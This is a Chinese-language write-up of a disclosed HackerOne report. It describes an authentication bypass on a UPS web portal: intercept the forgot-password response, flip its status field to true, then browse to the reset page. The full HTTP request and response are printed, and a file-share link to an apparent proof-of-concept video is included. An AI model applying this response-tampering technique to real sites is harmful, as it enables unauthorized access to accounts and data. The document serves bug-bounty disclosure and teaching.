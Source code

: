 
https://hackerone.com/reports/1539426


声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
nayefhamouda于2022年4月份提交的这个权限相关的漏洞:
白帽小哥发现可以越权访问团队管理面板;

## 复现步骤
1.登陆 connectnb.ups.com：

2.进入`https://connectnb.ups.com/Layout/forgotPassword`，输入任何电子邮件地址，拦截请求:
```
POST /api/Account/SendTempPassword/?userName=admin@admin.com HTTP/2
Host: connectnb.ups.com
Cookie: __RequestVerificationToken=ZSZXAd3wrj6GSWF1seZAIWIUPQiK4spv-xbaxR_3HxFgJnaSGKr7xXlb9iHYEUQVloknAoTtK5DmWtjdP7yVT7MQ6Z2JW3d5kK2qoxDAbas1
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="99", "Google Chrome";v="99"
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: https://connectnb.ups.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,ar;q=0.7
```
3.在burp里面，拦截此请求的响应并将其中的status更改为 true
```
HTTP/2 200 OK
Cache-Control: no-cache,no-cache,no-store
Pragma: no-cache,no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: 
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Referrer-Policy: no-referrer
Strict-Transport-Security: max-age=31536000; includeSubDomains;preload
X-Frame-Options: DENY
X-Ua-Compatible: IE=Edge
Content-Security-Policy: script-src 'self'; object-src 'self'; frame-ancestors 'none'
Expect-Ct: enforce, max-age=7776000, report-uri='https://connectnb.ups.com/'
Access-Control-Allow-Headers: Accept, Content-Type, Origin
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Date: Wed, 13 Apr 2022 05:09:59 GMT
Content-Length: 89

{"status":true,"errorMessage":"Username does not exist. Please enter correct Username."}
```
4.然后，转到这个路径/resetPassword。您会注意到这个页面已经打开，没有问题:
![图](../images/broken.png)

发现可以越权查看用户或报告信息了;

这小哥挺有才华的,一边poc的时候还一边唱着rap   =====》==
链接: https://pan.baidu.com/s/1dMwwD3oU0Ahv5G3e1oJE9w  密码: 6j3v


